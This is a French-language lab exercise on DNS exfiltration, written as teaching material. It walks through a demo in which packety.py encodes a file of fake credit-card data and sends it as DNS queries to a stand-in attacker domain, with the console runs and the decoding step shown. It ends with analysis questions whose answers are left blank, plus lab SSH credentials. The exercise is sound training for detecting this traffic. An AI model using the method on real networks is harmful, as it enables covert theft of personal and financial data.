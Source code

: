# Exfiltration DNS

### Exfiltration DNS : Theorie

L'exfiltration DNS est une technique qui consiste à utiliser le DNS pour dérober des données.<br/>
Cette technique est principalement utilisée comme moyen de collecter des informations personnelles telles que les numéros de sécurité sociale, la propriété intellectuelle ou d'autres informations personnellement identifiables.  

- L'exfiltration DNS est une cyberattaque sur les serveurs via le DNS, qui peut être effectuée manuellement ou automatiquement en fonction de l'emplacement physique de l'attaquant et de la proximité des appareils cibles.   
- Dans un scénario manuel, les attaquants obtiennent souvent un accès physique non autorisé à l'appareil ciblé pour extraire des données de l'environnement.
- Alors que dans l'exfiltration DNS automatisée, les attaquants utilisent des logiciels malveillants pour effectuer l'exfiltration des données à l'intérieur du réseau compromis.

- Le service DNS est généralement disponible sur une machine cible et autorisant le trafic sortant généralement sur le port TCP ou UDP 53. Cela fait de DNS un candidat de choix pour les pirates informatiques à utiliser pour exfiltrer des données.

- L'exfiltration de données via DNS pourrait permettre à un attaquant de transférer un grand volume de données depuis l'environnement cible. De plus, l'exfiltration DNS est principalement utilisée comme moyen de collecter des informations personnelles telles que les numéros de sécurité sociale, la propriété intellectuelle ou d'autres informations personnellement identifiables.

- L'exfiltration DNS est principalement utilisée en ajoutant des chaînes contenant le « butin » souhaité aux requêtes DNS UDP. La chaîne contenant le butin serait alors envoyée à un serveur DNS malveillant qui enregistre ces requêtes. Pour un œil non averti, cela pourrait ressembler à un trafic DNS normal ou ces demandes pourraient être perdues dans le mélange de nombreuses demandes DNS légitimes.

<p align="center">
  <img src="https://cdn.discordapp.com/attachments/798799811482353734/807298488881643550/exfil.png"/>
</p>

### Exfiltration DNS : Exemple

- Dans cet exemple de scénario, un attaquant essaie d'exfiltrer des données vers son système et a décidé que sa meilleure option serait d'utiliser des requêtes DNS. 
- L'objectif de l'attaquant est d'exfiltrer des informations sensibles d'une machine sur le réseau de SecureCorp. Dans cette démo, je montrerai les étapes qu'un attaquant pourrait suivre pour exfiltrer ces données de la machine compromise.

<img src="https://cdn.discordapp.com/attachments/798799811482353734/807298488881643550/exfil.png"/>

les informations de carte de crédit ont été générés via un faux générateur de cartes de crédit. 
Toutes les informations de carte de crédit sont fausses :)

Les fichiers utilisés pour cette démo se trouvent dans le repo `dns-exfil-infil` sur GitHub. 
Vous aurez besoin de fichiers pour compléter le reste du TP.

[securecorp.txt](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/securecorp.txt)  
[packety.py](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packety.py)  
[packetGrabber.py](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packetyGrabber.py)  

1. Fichier texte contenant de faux numéros de carte de crédit, noms, adresses.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129675221958696/1.PNG"/>


2. packety.py ( https://github.com/kleosdc/dns-exfil-infil )

Lorsque packety.py est exécuté, vous devrez fournir au script l'entrée suivante :

* Nom de fichier : (C'est le fichier (Text file RECOMMENDED) que vous essayez d'exfiltrer du réseau de SecureCorp)

* Nom de domaine : ( c'est ici que vous allez mettre votre nom de domaine, par exemple badbaddoma.in )

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129727180472340/2.1.PNG"/>


`python packety.py
`
`Filename: securecorp.txt
`
`Domain Name (Example: badbaddoma.in): badbaddoma.in
`
`[+] Reading file.
`
`[+] Base64 encoded.
`
`[+] Base58 encoded.
`
`Start transmitting... [PRESS ENTER KEY]
`

- Le code commence par la lecture du fichier texte.   
- Le contenu du fichier texte sera d'abord encodé en Base64 puis en Base58. Cela nous laisse avec une longue chaîne encodée.  
- La chaîne est ensuite divisée en sections de 20 caractères où chaque section aura 3 caractères 'factices' ajoutés pour plus d'obscurcissement.   
- Un caractère sera ajouté au début de la chaîne encodée et deux caractères seront ajoutés.

- Par exemple, une section des données encodées pourrait ressembler à ceci : « 6gfghhjywsas3rg4hda3 ». Une fois les caractères supplémentaires ajoutés, il deviendra "x6gfghhjywsas3rg4hda3yu".

- Une fois que tout est encodé et prêt, le code attendra que l'utilisateur appuie sur "ENTREE" afin de commencer à transmettre les requêtes au serveur DNS.  
- Le serveur DNS aurait déjà été configuré pour capturer les requêtes entrantes avec 'Wireshark' ou 'tshark'.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129732692967474/3.PNG"/>

- Ensuite, il ne reste plus qu'à attendre que la transmission atteigne 100%. Si l'une des requêtes n'est pas livrée à temps et dans le bon ordre, les données exfiltrées seront incomplètes et inutiles pour l'attaquant.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129738539565066/5.PNG"/>

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129741236502568/6.PNG"/>

3. `packetyGrabber.py` ( https://github.com/kleosdc/dns-exfil-infil )

Le code demandera à l'utilisateur la saisie suivante :

* Fichier capturé : Il s'agit du fichier .pcap que vous avez capturé sur votre serveur DNS.

* Sortie du nom de fichier : il s'agit du nom du fichier dans lequel les données décodées seront enregistrées.

* Nom de domaine : Ce sera votre nom de domaine.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129744641622016/7.PNG"/>

`python3 ~/tools/packety/packetyGrabber.py
`
`File captured: cap-credit-cards.pcap
`
`Filename output: credit-cards.txt
`
`Domain Name (Example: badbaddoma.in): badbaddoma.in
`
`[+] Domain Name set to badbaddoma.in
`
`[+] Filtering for your domain name.
`
`[+] Base 58 decoded.
`
`[+] Base 64 decoded.
`
`[+] Output to credit-cards.txt
`
- Si tout se passe bien, qu'aucune requête n'a été perdue et que toutes les entrées sont correctes, un fichier avec les données décodées sera enregistré dans le même répertoire à partir duquel vous avez exécuté le code.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129748282933258/8.PNG"/>

### Exfiltration DNS : Pratique

**Se connecter à la machine cible en SSH**

Utiliser les crédentiels suivants :
* Utilsateur : user
* Mot de passe : P@ssword01

Parcourir les fichiers dans les dossiers :
```console
~/challenges/exfiltration
~/dns-exfil-infil/
```

Aller dans le dossier ci-dessous et lire les instructions dans le fichier TASK :
```console
$ cd ~/challenges/exfiltration/orderlist
```

L'extension de fichier .pcap  est principalement associée avec Wireshark
les fichiers .pcap créés pas Woreshark contiennent les données en paquets d'un réseau. 

Ces fichiers sont utilisés principalement dans l'analyse des caractéristiques du réseau d'un certain données. Ils contribuent également à contrôler avec succès le trafic d'un certain réseau depuis qu'ils sont surveillés par le programme.

- Analyser le fichier order.pcap et détecter le fichier comportant des requêtes suspectes :
```console
Réponse : $ tshark ...
```

Le script `~/dns-exfil-infil/packetyGrabber.py` permet de decrypter les fichiers Wireshark.
```console
$ python3 ~/dns-exfil-infil/packetyGrabber.py
```

Ignorer l'exception levée à la fin du script.

Quel est le nom de la première transaction ? 
```console
Réponse : 
```

Quel est la valeur de la transaction Firewall ?
```console
Réponse : 
```

Aller dans le dossier ci-dessous :
```console
$ cd ~/challenges/exfiltration/identify/
```
Parmi les fichiers `*.pcap` analyser leur contenu :
```console
Réponse : $ tshark ...
```
Si vous peinez à réaliser la commande demander au formateur de vous la fournir



Quel fichier contient des requêtes DNS douteuses ? Pourquoi ?
```console
Réponse : 
```

```console
python3 ~/dns-exfil-infil/packetyGrabber.py
```

Trouver le texte récupéré après avoir décodé les données en utilisant le programe Pyhton packetyGrabber.py qui se trouve dans le dossier `~/dns-exfil-infil/`.
```console
Réponse : 
```
